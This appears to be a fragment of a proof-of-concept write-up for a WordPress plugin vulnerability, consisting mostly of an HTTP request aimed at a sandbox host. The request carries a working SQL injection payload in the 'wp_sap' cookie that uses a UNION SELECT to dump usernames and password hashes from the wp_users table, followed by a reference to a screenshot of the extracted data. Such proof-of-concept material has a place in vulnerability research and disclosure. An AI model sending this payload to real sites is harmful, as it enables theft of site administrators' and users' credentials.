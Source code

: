 **Request to extract username and password**
```
GET / HTTP/1.1
Host: sandbox.local
Cookie: wp_sap=["1650149780')) OR 1=1 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,(SELECT concat(user_login,':',user_pass) from wp_users),11#"]
```

**Extracts from injection**
![[sqli-extract.png]]